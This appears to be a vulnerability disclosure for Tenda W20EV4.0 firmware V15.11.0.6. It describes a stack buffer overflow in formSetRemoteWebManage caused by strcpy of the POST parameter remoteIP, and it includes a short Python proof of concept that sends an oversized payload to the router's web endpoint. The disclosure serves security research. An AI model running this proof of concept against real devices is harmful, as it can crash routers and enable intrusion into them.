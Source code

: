## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2707.html

## Affected version

W20EV4.0 V15.11.0.6

## Vulnerability details

The Tenda W20EV4.0 V15.11.0.6 firmware has a stack overflow vulnerability in the `formSetRemoteWebManage` function. The `ip` variable receives the `remoteIP` parameter from a POST request and is used in statement `strcpy((char *)temp_value, (const char *)ip);`, which caused the buffer overflow attack.

![image-20240409130925063](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130925063.png)

![image-20240409130854266](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130854266.png)

![image-20240409130910804](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409130910804.png)

The user-provided `remoteIP` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/SetRemoteWebManage"
payload = b'a'*2000
data = {"remoteType": 1,"remoteIP": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409110959426](C:\Users\杨浩然\AppData\Roaming\Typora\typora-user-images\image-20240409110959426.png)
